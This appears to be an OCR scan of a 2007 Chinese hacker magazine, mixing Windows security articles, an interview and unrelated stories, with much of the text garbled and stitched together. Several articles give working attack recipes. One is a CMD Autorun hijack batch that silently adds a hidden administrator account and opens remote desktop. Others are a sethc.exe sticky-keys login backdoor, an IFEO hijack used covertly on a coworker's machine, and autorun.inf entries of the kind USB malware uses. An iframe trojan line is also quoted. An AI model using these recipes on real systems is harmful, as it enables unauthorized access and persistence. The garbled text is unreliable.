下列就是“终极话一一小菜鸟 BAT·高级篇”，欲知后事如何，嘿嘿（一到此来各，想笑中……）。发笑啊，不好意思写错了，发套啊……（众读者一一一口）

> 【文章中涉及到的技术处理仅在无意中有收录】

### 编辑点评：

其实此处理 Windows 中的大多部分命令都可以有效使用命令行方式和脚本执行，而其中文分句令则来自体制的变化。文中提到的此处理安全技术中，一个有其定性变化，似乎对各个命令中——“呵呵”，不说了，要不你看我会莫笑啊”。还是让我们一起期待小菜鸟 BAT 的后续文章吧。


扫描时占内容比较大而且容易爆死，后来用线程解决了很多问题，而占内容问题没有很好的解决方法，这也算是用 .NET 的一个缺陷吧，不知道哪位高手有好的解决办法，有的话请踊跃和用的朋友最好在网关上绑定本地 IP 和 MAC 地址。

## 三、安全牛应用

下面我就大家一下如何在实际应用中举一反三，充分发挥安全牛的强大功能。首先它将客户网站出现了挂马现象，环境中判断木，有 hp 和 asp 两种脚本，打开网站填黑单出如图1所示。


初步有 2 种情况：1. 黑客已经入侵，网页被篡改；2. 网页被插入了危险字符。于是有两项代号需执行：<iframe src=http://www.XXX.net/muma.html width=0 height=0></iframe>，证明网页被篡改。于是启用安全牛，这里提示请注意：运行文件夹安装 Microsoft .NET Framework 2.0，大家可以在光盘中找到。

点“反找”进入后点击“浏览”选择要清除的目录，再选择要清除的内容，<iframe src=http://www.xxx.net/muma.html width=0 height=0></iframe>，点“立即清除”，完毕后如图3。


# 征文赛·黑客手册 2007.11 →【C 版黑客】

| 时间 | 标题/内容 | 备注 |
|---|---|---|
| 2007-9-12 | …… | …… |
| 2007-9-17 | …… | …… |
| 2007-9-18 | …… | …… |
| 2007-9-19 | …… | …… |
| 2007-9-24 | …… | …… |
| 2007-9-25 | …… | …… |
| 2007-9-27 | …… | …… |
| 2007-10-1 | …… | …… |
| 2007-10-4 | …… | …… |
| 2007-10-5 | …… | …… |
| 2007-10-6 | …… | …… |
| 2007-10-8 | …… | …… |
| 2007-10-9 | …… | …… |


到有 3 个页面被挂马。现在批挂马很流行，我在浙江某行业门户网站工作时就遇到过这种情况，挂马从下午 5 点开始，开始只是单页面挂了几个页面，1 点到晚上 10 点之间有 30 多万个静态页面被挂了，过时老板问了情况，后来一步步工作时定期开了扇黑客门的后门。返回主题页面后门不为空模式，一封邮件虽然生成了 html 形式，如图4。

根据扫描报告发现 5 个后门，其中一个加密的 asp 后门，一个一词字 php 后门和新等，老先，另有个完整的 php 后门，从后门位发现它目录有上传漏洞，立即补上，修改后台生成 FinalRecovery，这个工具可以检测被删除的文件而且扫描速度快，有利于我们来往度概念。运行后发现有几个大站上传的后门被删除了，根据位置和时间又找到几个漏洞，想此补补。最后一步，启用网站防篡改功能。在 D 盘新建一个 web_back 的文件夹，将刚才修复过的网站页复制进去，并只给 Administrator 完全控制的权限，删除其它用户，用记事本打开安全全部目录下的 Sate3.config，将其中 <switch>0</switch> 改为 <switch>1</switch>，并将 <webroot>E:\web</webroot> 中换为自己的网站根目录，<webbak>h:\web_bak</webbak> 中换为网站备份目录，<mailserver>smtp.126.com</mailserver>，<mailuser>test@126.com</mailuser> 和 <mailpass>test</mailpass> 中换为自己 126 申请的用户名和密码，126 附时的话服务方法就不介绍了，大家可以自己去看。最后点击主页上的 web 按钮，进入后台点浏览 web 根目录，填入监控文件类型，点击开始监控功能按钮就成了。


（图6）。ARP 欺骗免疫功能。ARP 欺骗是个热门话题，带来的危害也比较大，通常用来 ARP 挂马。


## 四、后记

在开发这个软件的过程中遇到了不少困难，但也有成功后的欣慰，因为本人比较懒，所以软件界面和易用性比较差。下一版本基本模型已经设计出来了，用 Java 开发，这样就可以应用到 Linux 等其它操作系统了。软件部分由安全分析模块、实时分析监控、系统配置问题、比如权限等，能给出解决方案。安全会员将手动有关前面功能完整多，甚至考虑到多数管理员的经济状况，该版本可以免费使用到明年类型会最后感谢那个导师，帮助我解决和这与参考文献方面。

> 「文章中涉及到的工具安全和 Microsoft .NET Framework 2.0 在此公布有收录」

编辑点评：从作者给出的例子可以发现，安全不是一般很小巧方便容易上手的工具，功能也是比较实用的，更少功能将会在后面的版本中添加，小小观点我的比较明显的缺点的缺点：就是这软件的模块、功能较少，版本 5.0 config 文件可以这样写，没想到这么好学的功能的局限好。总之这是简单的道具。当然安全公司的要求还要继续往前走，感谢作者工作台又一次的分享，这在安全界是值得的。


从本文中你可以学到：
1. 如何利用 IFEO 禁止程序执行
2. 如何利用 WinRAR 制作伪装错误信息提示文件

由于做饭的原因，办公室中常会有某种小孩占用 MM 闻事的机器玩网游，大家都知道手不好受。往往客户是由于他玩游戏误工去，甚至还会被带头非法。于是 MM 向我提出给这位小网友带来任务要求：秘密禁止网游！本人略想那，才有了主意。经过了解，他玩的网络游戏《QQ 三国》和《跑跑》（小钩·或是）算一种卡车专，现制作了 3 个文件，通过网络将这些文件拷贝到同事机器的 Windows 目录。略做操作后，只余小孩来！结果

334 | KONG|BACK

是，小孩这次运行游戏后看到图1的提示。可傻眼了！他还不死心，反反复复、安装程序、升级、杀毒，最终还是放弃游戏选择离开。MM同事看到窗外上挂了花。为防止他上脚其它机器，于是我把所有局域网机器都处理一番。任务完成，此招就叫：安得妙计禁网，MM 败尽攻！


下面我就先告诉大家是如何实现禁止网游的，是先装作用户的 3 个文件分别是 LOCK.REG；这个不是注册表文件，2.EXE 和 3.EXE 生成错误信息的文件。第一步：编辑生成 LOCK.REG 注册表文件，代码如下：

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\KartRider.exe]
"debugger"="2.EXE"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\QQSG.exe]
"debugger"="3.EXE"
```

可看到关键是其中的 KartRider.exe 和 QQSG.exe，这些是游戏的执行文件，之后要增加禁止的游戏，就只要复制文件最后两行，将其中的 QQSG.exe 改为新的游戏执行文件名即可。

小提示：如何知道游戏执行文件名呢？在桌面右键点击游戏快捷方式图标 → 属性 → 在“目标”一栏的最后后面看到 XXX.EXE 的字样，就是它了。

第二步：制作错误信息提示文件。这里我使用的是 WINRAR，在桌面创建一个文本文件，右键点击它选择“添加到压缩文件”，如图2所示。选择“创建自解压格式文件”，再点右上方“注释”，输入以下代码：


TempMode=“服务器升级版拒绝到来的网速太低无法游戏，明白地说“异”；Silent=1；Overwrite=1

最后点击“确定”。双击刚完成的自解压文件看到如图1所示。第三步：通过网络或 U 盘将 2.EXE 和 3.EXE 及 LOCK.REG 全拷贝到需禁止网游机器的系统目录，再双击执行 LOCK.REG，看到问题是各司其职，点击“是”。大功告成！

编辑点评：这篇文章的一个重点就是 IFEO（Image File Execution Options），所说出现的“升级女上街”是 Windows 映像劫持功能，它允许用户为指定程序名的可执行文件设置一个“调试器”，这样就会在启动程序时执行指定程序名的文件。其功能常被用于调试和诊断，也可实现一些有趣的用途，如实现自定义错误提示。外行 WinRAR 的界面看起来很神秘，其实此文更浅显，这是一门很基础但实用的技巧。

# IPSec 为你的安全添砖加瓦

从本文中你可以学到：
1. 如何使用 IPSec 阻止 ping 探测
2. 如何使用 IPSec 关闭端口

好多朋友问我，用什么防火墙比较好，是天网、瑞星还是其他。在这里我要为大家介绍一款微软帮助我们使用的免费防火墙。众所周知它不太大合适，但是它只需要简单的配置就可以实现对某端口的关闭和对数据包的过滤。它就是 IPSec 服务，而且使用起来非常方便。

首先我们来看看什么是 IPSec。IPSEC 是一系列基于 IP 网络（包括 Internet、Extranet、在 Internet 的），由 IETF 正式定义的开放性 IP 安全标准，是虚拟专网的基础，已经相当成熟可靠。其实对于它的概念我们不必了解得太深，因为可发挥它的效能让我们可以很方便地使用 IPSec。WINDOWS2000 以后都内置了 IPSec，它的使用也是非常简单的。IPSec 是通过使用策略和规则来提高网络安全的。规则包含：筛选器、筛选器动作和身份验证方法。WINDOWS 为我们提供了两个默认策略 CLIENT、SERVER 还有 SECURE SERVER。也许各位都在考虑过，不过没关系，一会我会拿实际的例子给大家，这样大家方便直观地感受什么是筛选器和筛选器动作。而其它的几个，是本文讨论的主要内容。我们就先来做第一个例子吧。如果你经常使用 ping 命令来探测网络中的主机，那就通过简单的配置 IPSec 来让别人 ping 不通我们吧。首先我为大家介绍下实验的环境，我的机器 IP 为 192.168.0.183，我的虚拟机 192.168.0.150，它们组建了一个小的局域网，先来 PING 一下我的虚拟机吧，如图1。


一切正常，通了。下面就通过对 IPSec 的简单设置来阻止网络中对我们不友好的 ping，顺便瞧瞧什么是筛选器和筛选器动作。往“开始”菜单→“运行”中输入 MMC 来打开控制台，在控制台的菜单栏中单击“文件”，选择“添加/删除管理单元”。来到“添加/删除管理单元”后点击“添加”按钮，选中“IP 安全策略管理”，再点“添加”选择“本地计算机”。

# 小心，CMD 也闹鬼！

从本文中你可以学到：
如何利用 CMD 的 Autorun 功能启动程序

CMD？大家熟悉吧！我们可以在这里查看进程、查看端口号，可以干许多的事！可是你有没有想过，当我们打开 CMD 的瞬间，可能有个脚本或者病毒对话，可不是说着玩的，现在就让我们一起来看看是怎么一回事？

话说回来，这还是我有一回在网上看的时候，看到别人可以用这个方法来劫持你的 CMD 窗口。当时我就想，既然你可以装饰你的窗口，为什么不能干别的呢？我们开始吧！装扮 CMD 的方法很简单，思路是一个“处理”，内容如下：

```
@ECHO OFF
cls
echo '+++++++++++++++++++++++++++++++'
echo + 冰的原点 +
```

# 【版黑客】— 2007.11

保存为 11.bat，随便放在哪个盘里，这里我放在 C 盘，然后找到注册表，到这个路径目录下：

`[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]`

在右边出现了一个字符串值：autorun，然后右键修改，在弹出的对话框中填入 11.bat 的绝对路径，如图1。


然后点击确定，现在我们再到“运行”里输入 CMD 试试，会出现这样的画面，如图2，到这里为止我们关于修改的 CMD 窗口就完工了，当然这里面的代码大家可以随便改。


说到这里，大家可能已经想到这篇文章要讲的是什么了。不过，现在我们测试的时候，还是遇到些麻烦。我把原来的代码改成这样：`start http://www.baidu.com`，然后保存。看看会出现什么效果，如图3。


百度是打开了，可 CMD 窗口下，不是明晃晃地摆着我们的命令么？这次怎么能行，下一句就是藏着杀手了！我们得想想办法把这些命令隐藏起来。对，我们用 `ECHO OFF` 试试，再来看看效果，如图4。


很明显地，大家都看到了，我们的 11.bat 不是很明显地暴露在 C 盘么？这个很好办，我们把它隐藏就行了；每个盘都有一个 Recycled 目录，只要把它拷到这里来，就可以隐藏。原理说到这里，我们来分析一下，这个杀手到底可以干什么？

```
bat
ECHO Windows Registry Editor Version 5.00 >door.reg
ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor] >>door.reg
ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run] >>door.reg
...
```

接着把 13.bat 传到 c:\Recycled 下，然后等着管理员上钩。我在本机上自己用 NETBOX 搭建个 WEB 环境，测试的时候确实是成功了，可是系统却来了趟，桌子呢给伤到了。它是给他动手后才过来一看，果是能修改 CMD 命令了，还用着到这么？嫌弃用来接杀效果果没了则是了。

```
bat
@echo off
net user admin$ angel /add && net localgroup administrators admin$ /add
wrsky.exe -s 3398
rem 该文的防止隐藏，存储和防杀
attrib +h +s +a 13.bat
attrib +h +s +a wrsky.exe
```

这里的 wrsky.exe 是打开 3389 的工具，不需要重启的哦。把它和 13.bat 放在同一个目录下。这样的效果很明显，只要一登


在本机的测试，大家看图5和图6。图5显示这两个文件同时被加上系统属性，而通过图6我们可以看到 3389 端口已经打开了，不是不能很正常吗？这不失为又一种保护内网的办法哦。

想法三：这种处理到了…… 因为好多人才都喜欢在 CMD 下杀毒，我想要屏幕对 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor 下的 autorun 项进行监视，防止有修改注册表，然后再加载或者通过木马之类的东西，这样我们打开 CMD 时就有可能中更多的东西，更多的伪装，倒省得麻烦！

这篇文章的方法很有局限性，写这篇文章的作用就是想抛砖引玉，给大家提供个思路而已，我想肯定还有更多的方法把这个方法发挥得更强，甚至有更新的方法。如有不足之处，还请大家指教，欢迎大家到论坛和我交流，我的 ID 是冰的原点。

# SHIFT 后门探究


从本文中你可以学到：
1. 如何利用热键解除病毒记录系统密码问题
2. 批处理编写知识

前一段时间听说出来了个 shift 后门，知道个大概原理，今天有空，就来研究下。听说它的原理是利用系统的“粘滞键”，在系统进行正常登录操作之前打开了系统的“资源管理器”，其实我觉得应该可以打开桌面啊！知道了大概原理，我们就来找出这个快捷中的“后门漏洞”。

按照我的思路，既然是利用粘滞键，那我们就来制造个粘滞键环境。打开控制面板，双击“辅助功能选项”，如图1。


把图中的“使用粘滞键”打上，再点击它的“设置”，把其中的除第一项之外的都去掉了，如图2。


应用设置后，来到桌面连续按 5 次 Shift，该出来的就出来了吧，如图3。


现在知道，网上公布的 sethc.exe 是怎么找到的了吧！当然，这只是其中的一种方法，顺便给每位介绍个（我就称之为“种”）加壳工具，再放个系统的功能就够多了），在 cmd 下执行 wmic，进入 wmic 的提示行，输入 process 4 找到粘滞键程序名（当然，你也可以输入“/?”搜索的东西帮助，才有的干啥吗！）。通过搜索，我们可以在“%systemroot%\system32”目录下找到它（其中“%systemroot%”是一个系统环境变量，一般指“c:\windows”或者“c:\windows”之类，总之你的 windows 安装到哪个盘，它就指向哪个盘，还有一些比较好的用户里面也会出现“%w%x”之类的，并不是处处用的变量。别搞错了！）。下面我们写个批处理来完成文件的替换，批处理内容如下：

```
@echo off
REM 规定标题名称
title SHIFT后门测试
rem 设置前景及后景颜色
color 0a
rem 在屏幕上输出文字
echo 开始文件的移动
rem 将 explorer.exe 重命名并复制到 dllcache 目录
copy %systemroot%\system32\explorer.exe %systemroot%\dllcache\sethc.exe
copy %systemroot%\explorer.exe %systemroot%\system32\sethc.exe
echo 文件替换完毕，按任意键退出。
rem 暂停一下
pause
exit
```


将其保存为 shift.bat 双击执行就可以了，成功替换文件，如图5。现在测试下，注销，接着 5 次 Shift，资源管理器界面出来了。但是，我还要桌面，在资源管理器里面“右键”→“新建快捷方式”，输入“cmd”，名称随便，成功建立快捷方式。然后打开这个 cmd 的快捷方式，关闭现有的资源管理器（一步有些复杂，可以到任务管理器里点），再在 cmd 中执行“explorer”就好了，系统还会要求选择界面里，登录界面就重新出现。如要进入后门，则直接按系统自带的 cmd 里都可以；还要注意的是由于不够完整，当然不写它的细节（当然可以保留，存放位置要改一下），所以执行时是要在管理员权限内打开，不然就没有权限改目标文件，切换管理员账号之后操作即可。

编辑点评：
这篇文章讲的应该是关于通过修改系统粘滞键的情况，来获得 cmd 免密码的技巧，笔者认为还是很有用的，读完文章能感觉到的，这其中讲解得很细致，方便新手们来了解。另外，文章中提到的如果我们可以通过修改系统中的 sethc.exe 来实现开机后门，该方法既可以用于测试，也可以对管理员口令进行恢复，尤其是 Windows XP、Windows 7 系统中常见的漏洞利用方式。本文中还补充了通过批处理替换系统文件的方式，并提醒了权限与备份问题。

编辑后记：
这篇文章讲的例子在实际中也存在于系统密码的情况，后面在文章中应用，应该是将前面的内容进行实战演示，该文章中还分析到的，读者更容易理解本文中的原理，适合有一点基础的读者观看。在打开系统后，仍有需要注意的一点是要把 sethc.exe 改回去，以免留下安全隐患。文末也提到，在某些情况下会有权限不足、HKCU 下操作的情况，这部分在操作时要注意管理员权限和备份，以免导致系统文件损坏。


# 该怎么保护你的 U 盘

本文中你可以学到：
1. Autorun.inf 的语法
2. 安全打开 U 盘的几种方法

我的 U 盘曾丢了几天，回来时简直就觉得中毒了的小样貌，看来似乎这等有些问题了吧。


我注意到这盘中可以自动执行时，它的 Autorun.inf 文件，用来改变盘图标、属性还是说明，现在都好像有很多说法。


下面先看看 Autorun.inf 的文件，原来是改变盘图标、属性还是说明，现在也进一步了解了。
让大家在自己的 U 盘里试了下，或许也能发现它们的效果。


继续研究，我们找到了一种可以控制“打开”行为的方法：修改 Autorun.inf 中的 open=、shell\open\command= 等项。这样双击盘符时执行的就不是默认打开，而是指定程序。


```
text
[AutoRun]
open=Mon.exe
shell\open\=打开(&O)
shell\open\command=Mon.exe
shell\open\2=打开(&2)
```

这几行代码使得右键菜单里的两个“打开”都关联上了同一个可执行文件。Mon.exe 已经被删除了，为了更好的研究，我用 VB 写了一个可执行文件 b.exe，效果如图 7。


看来大家等久了，现在就来看看这两个“打开”是咋来的。

# 图 8 从地址栏的下拉列表中进入 U 盘

现在我还是要对初学电脑的朋友说：一定要养成好的使用电脑的习惯，打开 U 盘最好用我今天介绍的“地址栏法”（案例现在还没找到比这个更好的方法，如果新闻会再予通知）。说得通俗点（小编：可以去点击资源管理器里的“文件夹”按钮，然后从左侧树状控件中，选择盘符里打开 U 盘，或者进入 cmd，转入 U 盘执行命令 start，等等）。

```
shell\auto\自动播放设备(\Auto)
shell\auto\command=Mon.exe
```

我想这句话主要是用来迷惑我们的，我们认为它有了“自动播放”那么“打开”就一定是安全的了（实在是一个伪还原并非是社会工程学）。我们就看管地写下了以下的代码：

```
shell\explorer=资源管理器(&x)
shell\explorer\command=ab.exe
```

按下 U 盘后重新插上，右键菜单里就新增一个“资源管理器(&x)”，如图 9。选择后我那个 p.exe 就能正常地运行了。到此我想已经有朋友想试着自己写点东西用了。关于


大家看到仿杂志的排版也不管是会常常看到来自 L.S.T 的作者？对，他们就是 LenK 技术联盟的朋友们！本期采访的朋友们就来到 L.S.T（LenK 技术联盟）的官方论坛来做客，让大家了解他们和网友 www.slenk.net 的建立及本来是能不办的！

# NoHack: Hello！LenK，能否先和大家简单地介绍下自己？

# Lenk：Hello，大家好，我是 Lenk，福建海洋人，于 06-10 月创建了 LenK 技术联盟。我热爱网络安全，是在 2000 年开始从事的，热爱的时间并不是很早，现在仍在和病毒作斗争。

# NoHack: 当初是什么原因使你接触黑客领域的？

# Lenk：兴趣来看，也是机缘巧合，访问了原先的小网点、黑白网络、技术都是人的，结果投入了不少的时间和精力来学习。

# 【翠川说】← 2007.11

# 超主宰数据百宝书册

Apache，福猫子的时候正好赶上十七大召开，这是个好事情，比如单位里很多房客子竟然别得顺利，但是好景不常，后来再次二十大召开后，却又下降，大家错愕地看着这位，平时一小步，今天的一大步，从此我对这两年小区的秩序有了更深的理解：秩序不是靠吼出来的，而是靠规则和时间慢慢长出来的。

总喜欢灰色幽暗的文字，看所有庭院中的故事，看安妮，听小调。

把自己化身为她们故事中的那个主角，以为自己就是恋爱的人。我的世界除了虚拟的网络再也容不下其他，自己会在夜深的时候用吱喳的方式与家远处强烈的轰鸣声，一次次从黑暗里，踏着死寂的影子前进。

我说，我是个怕冷的女人。所以每晚睡前常常抱着火热的心情，不停地在寒冷的被窝里。

我终于相信幸福是平凡的，值得回头去记忆。这样持之以恒用心相信：他们对我说：你是幸福的，我对自己说，我是幸福的。

开始接受幸福是属于我的承诺，我每晚都希望不会发恶梦，会在地板起来之前做早祷，然后在每个安静的早晨，轻轻一个吻在他额头等着他送我回家，在每天光临的前夜他吃晚饭的时候，绝不给他依恋，一定会有个美好，这是一只小区里最幸福的一对夫妻。

我一直相信自己是最幸运的。也说，他很快得到了呵护了。我去宾馆住在乎你几年的微笑。

他们说，每天会有很多很多的应酬。我每天敲打键盘写情感故事，生怕一个念想起来。他说，他说：心欣是这个地球上最单纯的女人。

开什么，他修早回来了，我客厅厨房两边跑，我要做他最喜欢吃的菜。他在客厅忙忙，我停一下，我有了最重要的采访记。我总说，他可以是时使你难之优秀的人。他急忙吃饭后，已经怎么平时不喜欢这样子的咖啡。

满地都是我们鲜妍的理想  
满地都是我们年轻的过往  
满地都是我们可爱的幸福  
夜深人静  
窗外月下  
茶香氤氲

序：论坛是以网络讨论的形式出现，返回到论坛的本质，亦即使在没有网络的情况下也能讨论问题、并且积累知识的场所。本期为大家带来的是：NoHack：既然是 Lenk 技术联盟，为什么这东西会这样对你有帮助？为什么我们会开展一个和论坛有关的讨论，尤其是进入一个有关安全的讨论，为什么我们会在这里讨论这么久？

NoHack：现如今世界里里的朋友知道你是个黑客技术爱好者吗？但你对你有什么看法？会不会每次收集数据都被你删除？

Lenk：我觉得大多数人都习惯对技术问题沉默，我只想说，我一直在做技术，有很多可说的东西，所以他们对我有的印象只是一个比较内向的人。

NoHack：明白你的签名是著名的“谷口：要生存，要冒险，要发展！”难道您总是生活在你小区的幸福？

Lenk：当然，我不仅是在公司，也会在很多的时间学习。许多时候其实是现实生活里的一种选择。

# 我爱了么

站起脚尖，旋转，跳舞，回落。衣袂翻飞，点头，微笑，祝福。

十字路口前，你说，我们彼此都应该将自己要关的脸，你的路不是我的路，你的小路难道注定如此吗？

依然么？

我只会这么深秋，我天已记完，我的花朵总记不清开，我就记不清就着了何的花瓣。

可我已经习惯了，我知道世上不是什幺都能以此，我知道喜欢这已经于了一份爱，既不乏表达内心的。

作为的为你感动，却又不真了。多年后你对吗。

和日圣的的祝别，我有些半枯辣，任在为一群的时间里。学会清理，回忆。

许多以往。

华灯初上，渲染夜色。

红颜终止空之回，落日斜光下。

河流或轻风一渡，流淌且从中

另一个场景，继续过着前进。

我在码字站边一边坐下。他抱房子和一切都留给了我。

一切都没有变化，只是再没有了她。我学会了无忧无虑的文字，写可以听从的身句，好小小说。关于爱情，似乎不可能了。写时边的音乐，一切无来我。我问的是说，始于 2005 年 8 月 7 日了。

于是 2006 年 9 月 8 日，2006 年 11 月 17 日保留出来电话总台自己打了入学保险，受益者是我，赔偿金是 20 万。有保险公司到各自给了我 2006 年 10 月 15 日死亡赔偿。

然后发现我自己那么一个人孤立无援，像是天的赐。

# 爱的日记

2005 年 8 月 5 日：亲爱的笨笨宝贝老婆，我终于就要实现自己 26 年来的梦想了。后天就是我们大喜的日子，我按照你的要求布置了你喜欢的书房，虽然你说你根本不会写字的空间，但我还是在你所通过的地方留下了你在房间。我原来自是的笔，贴金。我把餐桌留着，它像一只大玫瑰对着牵中的尽爱们，但你却在一起了。还有你的东都那花、你的咖啡入口，蜂了 7 的甜控水。他现在是在……

2005 年 8 月 7 日：老婆，你嫁了，和其他们的安全感，今天特殊日子好容易谢谢了，我认为自己是说个——人生被你影响的最后初次的记忆，若不是你，我已不知何为爱，若不是你，我也不知会在我的结果，在我的心中留下你。今天你总是微笑，我想我永远将和她相随。你会变着那样。那我们不也可以再一起吗？

2005 年 10 月 1 日：今天的平安夜。你太柔气息了。但只要你无忧便好。我记得这几天天都带来快乐，希望我们永远不散开，在这屋里，仍然是你最喜欢的那款花。我开始学着你喜欢，你会有意外的时刻等着我。你可知道那样日子，我会写着一个故事，成为一位名叫妻子的女子们。其实老婆，你没有要改变我，怎样做我是多喜欢爱的。要你一定在我身边是妻子了，我会对你的或许性的写。

2005 年 12 月 2 日：老婆，那天你寄《童话》的 MV，那女孩在最后问那男孩：你还会记得我吗？你的目一眼间掉落。我的笨笨老婆你还是怎样能够住，我要来告诉你你的不行来你，写的还不是爱，那你总是死掉在我梦后，我总会向我会勉强我们生命的尽头，总会有你才呀。哎呀？我处于了同门后用语在这先给你了，什么都 878？呵……

2005 年 5 月 15 日：今天上班的时候在刷房间看到了不知道怎么回事，做减理了，年轻后去医院检查下吧。应该没什么事的，可以想要了，我把爱好好给你看。你要撑住！

2006 年 1 月 7 日：所有的事都越来定了，我的眼睛是被不骗，老婆转来直至是一个大的改变了，什么事都能朝对的，9 号要上班了，明天我会去医院检查下，最近头晕的厉害。

2006 年 1 月 11 日：中午休息时刚在了超市窗，医生要我做个全面的检查，我有很不好的预感，希望没什么事。

2006 年 1 月 15 日：拿到医院结果的时候，我有种天塌下来的感觉，竟然是肝癌，还是晚期。医生说我最多还有大半年的时间，要我在医院治疗，这样可能多活点日子。现在这样，离我已不太可能不好的日子，我记下了，最后的时刻不再了。

2006 年 3 月 15 日：医生会说这是一个被患者，我不敢看我的病症，我也做不了什么事情，我只希望每天都能陪在她身边，哪怕能陪她去走走都好。

2006 年 4 月 2 日：今天有保险公司的人过来看我，问我有没有医疗保险，我说没有，因为我从来没有想过会这样。我如果有保险，赔偿这些钱会对你有帮助，可是现在已经来不及了。

2006 年 4 月 5 日：医生告诉我只能靠药物维持，日子一天天地过去，我还能撑多久呢？

2006 年 6 月 6 日：我发现自己有很多话想和你说，可是都没有机会了。老婆，我真的很害怕失去你。

2006 年 9 月 8 日：今天我终于明白，爱和死亡一样都无法回避。我要把我的所有记忆写下来，留给你。

2006 年 10 月 10 日：我开始写日记，希望有一天你能看到这段文字，知道我有多爱你。

# 【黑月说】— 2007.11

# 背后的真相

定的夫妻时间只有 1 年 1 个月 1 天，这数字真好，一辈子都要。那天，邵佳所有伤痛都看为恰如其分的冥衣，邵希忙忙忙忙忙，我简直不忍想他懂，可能是，“说话安宽出口，邻然着着没有我，我不免不知道回答”，我只能点头，拜他一边说这次不干。我有话，看来这件是时间，我想想他又有些同情，我的同修不能够。想来对他来说，这样子真是巧了，你一定要好好的活着，如果你恨劝的那几句誓要的事情，对不起这些先的朋友，这让我都很难过。

寿于 2006 年 10 月 15 日因脑病离肠死亡于父母家中，对父母唯一的要求是不告诉任何人，暗含愿由一串钥匙。

## 译

我叫钟，为了从那片茫稠的土地上爬出荆棘仿走向了工大，学样了又学多余的血汗。

大学毕业后我很快对所谓的城市生活感到失望，这比人，谁不想说为工作来到这个大城市，这在我这富于大平广月的月货下打到了价值，虽然是凄凉一点，但是也纵着家乡人的希望显我着失去也得工作，这工作的快速化使我加快，大学学校的人都在这几个一日，用致力向它衍行。于是有一个多少，开车算好，手间里对我把西打得房天，世云、上家兴这些技术含量要高，就觉得弃了它，找它，学家的过程中也要学这技术，最后我们来到了一个客户的工作主要在这里不一定只能根据客户的订单来决定，而这件下来现实中是我的资一面，口改的打压痛使我自己对自然的社会要有一种存活下来的技能，走出来的顺便有了意义。

在华兴公司上班的那是一天，一个户外机程序员的昼夜，牵子手，左右片是夜深的黑体，醒有丰时晓的坚守，周围很多不说话的相互点头。打开需要的窗，看到样子看腻了，白天还是加班，晚上更是被不断的邮件和任务追赶，有时在工位上趴着就睡着了。

压在公司里常常觉得愤懑，所幸最后也交到不少朋友。去开电话会时，客户声音总是模糊，虽然心里不爽，但还是得把方案改了一遍又一遍。有时候明明知道那是一个错误的方向，却还是不得不继续下去。直到有一天，自己也开始怀疑，自己到底是不是适合这样子的工作。

我妈曾经对我说，做事得有始有终，不要轻易放弃。于是我就一直撑着，哪怕有时候真的很累，也会告诉自己再坚持一下。

突然，我知道这段日子已经结束了，前头一切都变得很短，像电影结束后的空白。那一天，公司的灯还亮着，我站在窗前看着楼下的车流，觉得自己像被抽空了一样。

到客厅去了，电脑是打开的，我看见这女人的东西都是保存在 D 盘的，我先从 D 盘查起，很快发现任何可疑的东西，全部是这个人写的文字。仅仅和她无数仅仅的那种状态的文字，不知道可以说嘛，她竟然刚才大里。再看到她桌上那本积灰很久的日记时，我真的没有怕。我先把所有的私人使用在她的写字本笔记里了一点再看，耳边也传来一丝的文字，我打开文件夹，白纸的字从她的电脑传来，她的文字中都是她自己的感情。在这篇文章的末尾，我明显看到她写着“柔然柔”几个字，里头的上深点让我知道这是让她心灵最深的地方。

她的孩子还在家里，或者说也有些怪。这时她躺在床上，可以正眼看我，问我为什么要做这些事情，已经把她手里的纸都拿出给我看。我抬头望着她的脸，她的眼神里有一种说不清的复杂。我的眼睛在四处打转，又想着会不会有谁来，可我只能先把所有东西都收起来，随后将那份我一直想找的那封邮件拿了出来，继续翻着她的电脑文件。她的邮件和文字里，都有她离不开的那个男人。我知道这不是结束，但也许已经足够让我明白，很多事情并不像表面看上去那么简单。

最后终于，在房间里的一叠纸中，我看到了一页很旧的笔记，笔记上写着：我爱你，像火焰一样，像伤口一样。那是她一直想藏起来的东西，也是我一直想知道的答案。

她的丈夫在很久以前就已经知道了这件事，只不过他选择沉默。他不愿意面对，也不愿意承认。他说，曾经的那些东西都过去了，若是再提起，除了伤害，什么也不会留下。

> ——他已经走了。

编辑点评：

故事中有泪，有男人，有两个充满恐惧的男人。一个是妻，一个是藏，一个是作为内心暗欲的人。文章很感人，细小的字句诉说着故事的片段，让人回忆起所有曾经被忽略的感情。这是一个关于背叛与原谅的故事，结尾留给人的并不是答案，而是无法言说的余味。

饭

# 【读者专题课堂手册】2007.11 →【新闻练笔习】

记得那几天，我与正勤都把心埋在程序开发里面。阿英时常给正勤送茶送饭，对他无微不至，却是却没有像对正勤那样对待我。我心想，等我把程序开发出来，阿英会对我另眼相看的。

终于，我正式把要做的开发出了程序，并将程序进行压缩和加密，而密码是我喜欢的一个特殊密码，然后存进我的 U 盘，放在我的桌上。正好她出去办点事，所以打算等了一下午去那家公司报到。

可是，不幸的事还是发生了，当我回家时，桌上的 U 盘不见了。当时想到自己可以凭记忆把密码泄露出来，见 U 盘上的文件是加密的，连暴力破解也没办法，于是也没在太担心。

3 小时后，我在我母亲正在穿越村道时，催我家她那邻居阿婆说那一意思。可不管的，因为我回家时，正勤还未想出来，结果出来一看，她竟然很久都不再联系她，因为程序，以及很久没见到她的电话都会响。

正勤忙着整理她那份苦恼。在我不能看到那篇文章，她的程序也写好了，我也像是在接她的发言。可这样，阿英就更喜悦了，对她一点了起来。好，连她都不知道，后来我把工作做完给她时，她已经把电脑文件删掉了。老实说，我也不知道该怎么向她解释这一切。

那时，阿英想了一下，说：“阿英，你坏了，好嘛，那些但无论如何，正当阿英爱她下去的时候，正如前述之……”, 说：“阿英，别说了。” 说完，那时阿英了解正勤的心里非常难受，从她看向她的神情里面，她仿佛只是告诉阿英，正勤这次会失去。

就在这样，正勤被那个公司为什么要离开，后来，他又辞职开了一家电脑公司，并与阿英结婚了。再说吧，我为什么一直追着她，我终于在计算机方面做了点成就，她还为阿英保留了我。阿英很开心，觉得他是爱她的，也被这份爱所感动。

